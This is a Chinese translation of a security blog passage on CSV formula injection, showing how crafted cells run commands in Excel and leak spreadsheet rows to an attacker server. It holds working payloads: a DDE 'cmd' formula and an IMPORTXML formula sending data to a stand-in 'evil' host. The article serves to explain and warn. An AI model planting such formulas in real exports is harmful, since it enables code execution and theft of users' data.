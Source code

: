 如果我们把 CSV 文件改成这样会有什么结果？（注意最后一行的 Description 列）

```
UserId,BillToDate,ProjectName,Description,DurationMinutes
1,2017-07-25,Test Project,Flipped the jibbet,60
2,2017-07-25,Important Client,"Bop, dop, and giglip", 240
2,2017-07-25,Important Client,"=2+5+cmd|' /C calc'!A0", 240
```

如果我们用 Excel 打开会有什么结果？

![计算器会打开！](http://georgemauer.net/img/csv-injection/calc.png)

额滴神啊！

没错，系统的计算器打开了。

公平的说，在此之前**的确有出现过一个警告**。只是这警告是一大块文字，没人想要读它。即使有人想读，它也会明确建议：

> 只有当你信任这个 workbook 的数据时才点击确定

你想知道为什么会这样吗？这是一个应用的导出文件，是给**管理员**用的。他们当然信任这些数据！

如果他们的技术很好呢？那么更糟糕。他们**知道** CSV 格式只是文本数据，因此不可能造成任何伤害。他们十分确信这一点。

就像这样，攻击者有无限制的权力在别人的电脑上下载键盘记录，安装东西，完全远程地执行代码，而且这台电脑如果属于一个经理或者一间公司的管理员的话，还可能有权限接触所有用户的数据。我想知道在这台电脑里面还有别的文件可以窃取吗？

# 攻击方向 2

好吧，以上的主要内容挺简短，但是毕竟这是个（相对）[有名的漏洞](https://www.owasp.org/index.php/CSV_Excel_Macro_Injection)。作为一个安全专家，可能你已经警告了所有的管理员谨慎使用 Excel，或者会考虑使用 Google Sheets 来代替它。毕竟，Sheets  不会被宏影响，不是吗？

这完全正确。所以我们收回“运行任何东西”的野心上，并把注意力放在仅仅是盗取数据上。毕竟，这里的前提是攻击者是一个普通的用户，他只能接触自己输入在系统上的数据。而一个管理员有权力看到每个用户的数据，我们有什么办法可以利用这一点吗？

好好回想一下，我们虽然不能在 Google Sheets 里运行宏，但是我们完全**可以**运行表达式。并且表达式不仅仅限制于简单的算术。实际上，我想问下在公式中是否有可用的 Google Sheets 命令能让我们把数据传输到其他地方？答案是有的，有很多的方法可以做到这一点。我们先关注其中的一个方法[`IMPORTXML `](https://support.google.com/docs/answer/3093342?hl=en)。

> IMPORTXML(url, xpath_query)

当运行这个命令时，它会对上面的 url 发出一条 HTTP GET 请求，然后尝试解析并把返回数据插入到我们的电子表格。你是不是有一点想法了？

如果我们的 CSV 文件有以下内容：

```
UserId,BillToDate,ProjectName,Description,DurationMinutes
1,2017-07-25,Test Project,Flipped the jibbet,60
2,2017-07-25,Important Client,"Bop, dop, and giglip", 240
2,2017-07-25,Important Client,"=IMPORTXML(CONCAT(""http://some-server-with-log.evil?v="", CONCATENATE(A2:E2)), ""//a"")",240
```

攻击者以符号 `=` 作为单元格的开头，然后把 `IMPORTXML` 的地址指向了一个攻击者的服务器，并把电子表格的数据作为查询字符串附在该地址上。现在攻击者可以打开他们的服务器日志然后 **yoooooo**！。终于拿到了不属于他们的数据。[在 Requestb.in 上自己试一试](https://requestb.in/)。

有什么踪迹会留下来吗？没有警告，没有弹框，没有任何理由认为有出现过什么问题。攻击者只是输入了一个格式过的时间／问题／其他数据的条目，最终管理员当要看导出的 CSV 文件时，所有限制访问的数据都会瞬间，并悄悄地传输出去了。
